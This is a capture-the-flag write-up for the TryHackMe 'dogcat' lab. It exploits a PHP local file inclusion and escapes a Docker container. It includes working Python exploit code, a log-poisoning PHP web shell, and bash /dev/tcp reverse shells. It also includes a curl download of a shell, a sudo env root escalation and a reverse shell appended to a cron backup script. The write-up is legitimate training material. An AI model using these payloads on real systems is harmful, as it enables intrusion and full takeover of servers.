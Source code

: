 # dogcat

**Room link:** https://tryhackme.com/room/dogcat

Well, the summary gives most of it away: _Exploit a PHP application via LFI and break out of a docker container._

1. `nmap` reveals SSH (actually useless) and HTTP services on standard ports.

2. The HTTP server hosts a page `http://$TARGET_IP/?view=cat` or `?view=dog` showing pictures of cats or dogs. Playing around a bit with the `view` parameter, we discover:
  * it must contain `cat` or `dog` to be accepted;
  * the PHP backend code seems to directly include `$_GET['view'].'.php'` (thus allowing LFI and maybe RFI):

```
$ curl "http://$TARGET_IP/?view=this/is/a/cat/test"
(...) Warning: include(this/is/a/cat/test.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24 (...)
```

  * RFI does not seem to be possible:

```
$ curl "http://$TARGET_IP/?view=http://10.9.***.***:8000/catshell"
(...) Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/index.php on line 24 (...)
```

  * also the [null byte technique](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#null-byte) does not work here to neutralize the additional `.php` extension.

 3. Let us start by retrieving the `index.php` file. We use the `php://filter` [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers) to encode it in base 64 in order for it not to be interpreted.

```python
import requests, base64, re

URL  = 'http://10.10.***.***/'
WRAP = 'php://filter/convert.base64-encode/resource='
retrieve_data = lambda html: re.search(r'go!(.+)[ <]', html).group(1)

req = requests.get(URL, params={'view': WRAP+'cat/../index'})
index_php = base64.b64decode(retrieve_data(req.text)).decode()
print(index_php)
```

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

So the script only appends `.php` if the `ext` parameter is not given!

4. We can now request `/etc/passwd` (for instance) but this does not help... Let us retrieve the Apache logs:

```python
req = requests.get(URL, params={'view': WRAP+'cat/../../../../var/log/apache2/access.log', 'ext': ''})
apache_log = base64.b64decode(retrieve_data(req.text)).decode()
print(apache_log)
```

We notice that these logs contain the HTTP headers `Referer` and `User-Agent` in plaintext (between `"..."`).

5. Inject a simple PHP web shell. **Note** that we will **not** be able to **modify or delete** what we inject at this point, hence it is more reasonable to go for something as simple and reliable as possible while still allowing us to do whatever we want afterwards.

```python
requests.get(URL, headers={'User-Agent': "#L#<?php system($_GET['cmd']); ?>#R#"})
```

Now including the logs without the wrapper will interpret the injected code. We use `#L#` and `#R#` as delimiters to easily retrieve the result of the command (we will not actually use it much though):

```python
def run_cmd(cmd):
    req = requests.get(URL, params={'view': 'cat/../../../../var/log/apache2/access.log', 'ext': '', 'cmd': cmd})
    if req:
        html = req.text
        return re.search(r'\#L\#(.*)\#R\#', html, re.DOTALL).group(1)

print(run_cmd('id'))
```

6. From there, it is possible to immediately invoke a reverse shell (nested in another shell call):

```python3
run_cmd("bash -c 'bash -i >& /dev/tcp/10.9.***.***/4444 0>&1'")
```

**Or alternatively** to locally prepare a PHP reverse shell `shell.php` (port 4444 here). Start a HTTP server `python3 -m http.server` (port 8000 here) in the same directory. Upload the reverse shell.

```python3
run_cmd('curl http://10.9.***.***:8000/shell.php > shell.php')
```

Whatever the approach, get in and grab the **flags 1 & 2** (easy to find).

```
$ nc -lnvp 4444    
Listening on 0.0.0.0 4444
Connection received on 10.10.***.*** 48454
Linux e62e65052c25 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 14:31:47 up  2:56,  0 users,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag2_QMW7JvaY2LvK.txt
**REDACTED**
$ cat /var/www/html/flag.php
<?php
$flag_1 = "THM{**********REDACTED***********}"
?>
```

7. Escalate and grab the **flag 3**.

```
$ sudo -l
Matching Defaults entries for www-data on 0bebda29cdf5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 0bebda29cdf5:
    (root) NOPASSWD: /usr/bin/env
$ sudo env bash
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/flag3.txt    
**REDACTED**
```

8. We know we are in a container and guess that the last flag must be outside. Escape by injecting a reverse shell in what seems to be a backup script.

```
cd /opt/backups
ls -l
total 2884
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Jan  8 14:47 backup.tar
echo 'bash -i >& /dev/tcp/10.9.***.***/4242 0>&1' >> backup.sh
```

Wait a minute. Get out and grab the **flag 4**.

```
$ nc -lnvp 4242
Listening on 0.0.0.0 4242
Connection received on 10.10.***.*** 33190
bash: cannot set terminal process group (2131): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# cat flag4.txt
**REDACTED**
```
